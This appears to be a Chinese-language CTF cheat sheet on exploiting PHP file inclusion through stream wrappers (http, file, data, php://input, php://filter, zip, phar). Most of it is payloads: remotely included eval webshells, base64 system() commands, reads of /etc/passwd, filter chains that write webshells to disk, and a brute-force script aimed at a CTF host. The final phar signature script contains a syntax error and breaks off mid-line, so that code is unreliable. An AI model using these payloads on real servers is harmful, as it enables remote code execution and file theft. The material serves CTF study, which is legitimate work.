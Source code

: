 文件源代码中有include、require、file_get_content等函数，将会解析所含文件，然后再将其执行

文件包含漏洞可以分为LFl (Local File Inclusion本地文件包含)和RFI(Remote File Inclusion，远程文件包含）两种。而区分二者最简单的办法就是通过查看php.ini中是否开启了allow_url_include。如果开启就有可能包含远程文件。

远程文件包含需要php.ini中allow_url_include=on, allow_url_fopen = on。在php.ini中，allow_url_fopen默认一直是on，而allow_url_include从php5.2之后就默认为Off。

​    allow_url_fopen参数（只影响RFI，不影响LFI）

​    简介：是否允许将URL（HTTP，HTTPS等）作为文件打开处理

​    allow_url_include参数（只影响RFI，不影响LFI）

​    简介：是否允许includeI()和require()函数包含URL（HTTP，HTTPS）作为文件处理

**将以下示例设法放入include\require\require_once\include_once\file_get_content中**

### http://

远程文件包含，可以在自己的vps上写

```
<?php
echo 'hello <?php phpinfo();?> <?php @eval($_POST[\'shell\']);?>';
?>
```

然后file=http://vps/即可

### file://

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受配置文件中allow_url_fopen与allow_url_include的影响，示例：file://文件绝对路径和文件名

```
PHP的cURL库支持file协议。file协议用于在本地文件系统中读取文件
```

常用敏感路径：file:///var/www/html/index.php、file:///etc/passwd

### data://

```
data://,<?phpprint_r(scandir(/var/www));?>

?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTs/Pg==

使用base64时，不能出现加号，需要换函数执行
```

### php://

使用条件(php.ini配置)：

                                      allow_url_fopen                  allow_url_include
    php://input                             on/off                              on       （常用）
    php://stdin                             on/off                              on
    php://memory                         on/off                              on
    php://temp                           on/off                              on
    php://filter                             on/off                            on/off      (常用)

### php://input

php://input是php语言中一个只读的数据流；通过"php://input"，可以读取从Http客户端以POST方式提交、请求头“Content-Type”值非"multipart/form-data"的所有数据；"php://input"一般用来读取POST，除已被处理以外的剩余数据。

```
GET : index.php?cmd=php://input

POST : flag.php(目的数据)
```

### php://filter

php://filter可以作为一个中间流来处理其他流。

使用实例

解码：

```
php://filter/resource=文件名

php://filter/read=convert.base64-encode/resource=flag.php(常常源码不能直接被读取时，采用base64加密)

php://filter/read=string.strip_tags/resource=php://input

php://filter/read=string.rot13/resource=flag.php

php://filter/read=string.toupper/resource=flag.php

php://filter/read=string.tolower/resource=flag.php
```

写码绕过：

```
php://filter/resource=文件名&txt=文件内容

php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容

?filename=php://filter/convert.base64-decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
(base64字段为<?php exit; ?>)

?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG[n]);

?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=3.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

##### convert.\*过滤器

```
?filename=php://filter/convert.iconv.a.b/resource=check.php
(对a，b进行爆破，)

例如：
convert.iconv.UCS-4*.UCS-4BE   --->  将指定的文件从UCS-4*转换为UCS-4BE 输出
convert.iconv.UTF-8*.UCS-4BE  (常用)
```

爆破脚本

```python
import time
import requests

all='''
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
'''
for a in all.split():
    for b in all.split():
        url="http://a2213058-fb41-4fec-b816-9961745fb2db.node4.buuoj.cn:81/"
        praram={"file":f"php://filter/convert.iconv.{a}.{b}/resource=flag.php"}
        req=requests.get(url,params=praram)
        #先测试出len，然后在爆破
        if len(req.text)!=1237:
            print(req.text,len(req.text),a,b)
            break
        print(1)
        time.sleep(0.5)#减少爆破速度
```

官方网站：[PHP: Supported Character Encodings - Manual](https://www.php.net/manual/en/mbstring.supported-encodings.php)

### zip://

当我们上传一个zip文件至服务器，当通过zip://协议解析这个压缩文件，索引到某个文件

```
?fp=zip://uploads/xxxx.png/1.php%231&shell=phpinfo();
需要注意的是zip伪协议逐渐要加#，即%23

xxx.png(zipfile)
- 1.php(phpfile) => "<php? eval($_GET['shell']);?>"
```

名称                                                描述
resource=<要过滤的数据流>    这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>    任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名

### phar://

也可解析zip文件,phar://uploads/xxxx.png/1.php

当phar反序列化时php脚本：

```
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($payload); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

phar伪造签名脚本：

```
from hashlib import sha1
with open('1.phar','rb') as file:
    f=file.read()
s=f[:28]
h=[-8:]
newf=s+sha1(s).digest()+h#数据+签名+（类型+GBMB)
with open('newtest','wb') as file:
    file.wri
```
